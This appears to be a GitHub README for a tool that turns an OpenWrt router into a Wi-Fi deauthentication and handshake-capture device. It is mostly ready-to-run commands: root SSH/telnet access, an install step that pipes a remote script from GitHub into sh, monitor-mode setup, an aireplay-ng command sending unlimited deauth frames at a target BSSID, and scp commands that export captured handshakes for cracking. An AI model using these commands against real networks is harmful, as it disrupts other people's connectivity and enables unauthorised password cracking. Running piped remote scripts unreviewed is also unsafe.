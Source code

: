 # openwrt deauther based on airplay-ng
- Functions similar on kali
- Also it can capture WPA Handshakes

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```

## Auto install 
```sh

opkg update && opkg install curl && curl https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/monitor_mode.sh | sh
````

# Run
```sh
sh monitor_mode.sh && airodump-ng mon0
```

## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add mon0 type monitor`

`ip link set mon0 up`

`airodump-ng mon0`

`aireplay-ng mon0 --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - *.cap - export any name with .cap file format
